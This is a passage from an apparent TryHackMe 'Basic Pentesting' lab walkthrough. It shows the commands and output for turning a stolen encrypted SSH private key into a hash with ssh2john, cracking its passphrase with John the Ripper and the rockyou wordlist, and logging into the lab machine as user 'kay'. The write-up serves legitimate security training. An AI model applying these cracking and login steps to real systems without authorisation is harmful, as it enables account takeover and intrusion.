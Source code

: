 <br />

This appears to be an encrypted RSA file we currently do not have the passphrase to, meaning we will have to do some more work before we can put it to good use.

<br />
<br />

## 6. RSA file decryption

<br />

We can decrypt the contents of the private RSA key using `ssh2john` and export the decrypted data to a separate file that we can crack with `John The Ripper`.

```
╭─root@kali ~/TryHackMe/Machines/Basic Pentesting/.ssh  
╰─➤  ssh2john kay_id_rsa > kay_temp 
╭─root@kali ~/TryHackMe/Machines/Basic Pentesting/.ssh  
╰─➤  john --format=SSH --wordlist=/usr/share/wordlists/rockyou.txt kay_temp 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
No password hashes left to crack (see FAQ)
╭─root@kali ~/TryHackMe/Machines/Basic Pentesting/.ssh  
╰─➤  john --show kay_temp 
kay_id_rsa:*******

1 password hash cracked, 0 left
```

<br />

Connect to the target machine using the RSA key and passphrase we just obtained.

```
╭─root@kali ~/TryHackMe/Machines/Basic Pentesting/.ssh  
╰─➤  ssh -i kay_id_rsa kay@10.10.192.97
Enter passphrase for key 'kay_id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Tue Jun 14 19:18:43 2022 from 10.8.76.102
kay@basic2:~$ id
uid=1000(kay) gid=1000(kay) groups=1000(kay),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
kay@basic2:~$ whoami
kay
```
